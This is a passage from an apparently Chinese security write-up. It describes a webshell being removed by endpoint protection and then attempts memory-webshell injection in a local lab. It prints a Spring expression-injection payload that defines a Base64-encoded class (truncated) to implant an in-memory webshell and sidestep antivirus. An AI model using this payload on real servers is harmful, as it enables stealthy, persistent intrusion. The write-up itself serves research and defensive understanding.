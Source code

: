 但是 webshell 写入几秒后就被删了，服务器安装了终端防护软件，既有 360 安全卫士，又有奇安信天擎。

![图片](assets/1706513706-39b594907d4a5e53c88f111a55dd8813.png)

遇到这种情况能想到的解决办法基本上只能写免杀 webshell 了，要不就直接注入内存 webshell，不过因为不是攻防项目，当时就没有继续折腾。最近突然想起这个漏洞，决定本地搭建模拟环境继续折腾一下。

正常情况下，通过下面的方法就可以成功写入内存 webshell。  

```plain
${@org.springframework.cglib.core.ReflectUtils@defineClass('xxxx', @org.springframework.util.Base64Utils@decodeFromString('yv66v...'), new javax.management.loading.MLet(new java.net.URL[0],@java.lang.Thread@currentThread().getContextClassLoader()))}
```

![图片](assets/1706513706-581eaac5d5ba5a7562e91e95fc5f8b2e.png)
